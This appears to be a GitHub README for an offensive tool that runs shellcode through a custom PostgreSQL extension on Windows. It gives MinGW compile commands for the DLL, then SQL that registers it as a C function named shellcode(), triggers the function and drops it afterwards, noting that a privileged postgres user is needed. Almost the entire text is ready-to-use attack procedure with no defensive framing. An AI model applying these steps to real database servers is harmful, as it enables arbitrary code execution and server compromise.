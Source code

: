 # Postgres Shellcode Execute Extension

More information: https://www.phrozen.io/resources/paper/41df297b-cfe3-43ec-88e8-0686e5548dd5

## Compile Extension (Mingw 64bit / Microsoft Windows)

### Postgresql 13.1 (Adapt with your version)

`x86_64-w64-mingw32-gcc.exe PgShellcodeExt.c -c -o PgShellcodeExt.o -I "C:\Program Files\PostgreSQL\13\include" -I "C:\Program Files\PostgreSQL\13\include\server" -I "C:\Program Files\PostgreSQL\13\include\server\port\win32"`

`x86_64-w64-mingw32-gcc.exe -o PgShellcodeExt.dll -s -shared PgShellcodeExt.o -Wl,--subsystem,windows`

### Register and execute extension (Requires privileged postgres user)

```
-- Register new function
CREATE OR REPLACE FUNCTION shellcode() RETURNS void AS 'PgShellcodeExt.dll', 'shellcode' LANGUAGE C STRICT;

-- Trigger function
SELECT shellcode();

-- Delete function
DROP FUNCTION IF EXISTS shellcode;
```

